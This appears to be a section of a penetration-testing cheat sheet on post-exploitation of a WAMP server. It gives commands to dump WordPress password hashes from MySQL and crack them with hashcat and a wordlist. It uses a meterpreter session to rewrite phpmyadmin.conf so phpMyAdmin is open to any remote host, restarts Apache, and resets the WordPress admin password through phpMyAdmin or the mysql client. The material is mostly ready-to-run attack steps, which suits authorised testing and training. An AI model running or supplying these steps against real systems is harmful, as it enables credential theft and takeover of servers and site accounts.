 # WAMP
- Dump and crack Web app (e.g. WordPress) hashed credentials.
  ```
  show databases;
  use wordpress;
  select * from wp_users;
  
  1 | admin      | $P$BXzMzwqxm65vuHegt/rsJN2VbXPtT.1 | admin         | admin@example.com
  
  hashcat -m400 -a0 hashes.txt /usr/share/wordlists/rockyou.txt
  ```

- Modify phpmyadmin.conf to allow remote access.
  ```
  meterpreter > cd C:\\wamp\\alias\\
  meterpreter > dir
  meterpreter > download C:\\wamp\\alias\\phpmyadmin.conf
  
  <Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
      Options Indexes FollowSymLinks MultiViews
      AllowOverride all
          Order Deny,Allow --> Delete
          Deny from all --> Delete
          Allow from 127.0.0.1 --> Allow from all
  </Directory>
  
  meterpreter > upload ~/phpmyadmin.conf
  meterpreter > cat phpmyadmin.conf
  meterpreter > shell
  
  net stop wampapache
  net start wampapache
  ```

- Access /phpmyadmin.
  - No phpMyAdmin user - phpMyAdmin is a front-end for MySQL, only MySQL users.
  ```
  http://<ip>:8585/phpmyadmin
  ```

- Change WordPress admin password from phpMyAdmin.
  ```
  Click on wordpress.
  Click on wp-users.
  Edit admin user.
  Set user_pass to MD5 (function) and password123 (Value).
  
  Go back to http://<ip>:8585/ and click on wordpress under Your Projects.
  Alternatively, go to http://<ip>:8585/wordpress/wp-admin.
  Log in with the new password.
  ```

- Change WordPress admin password with mysql.
  ```
  mysql -u root -p -h <ip>
  use wordpress;
  UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
  ```
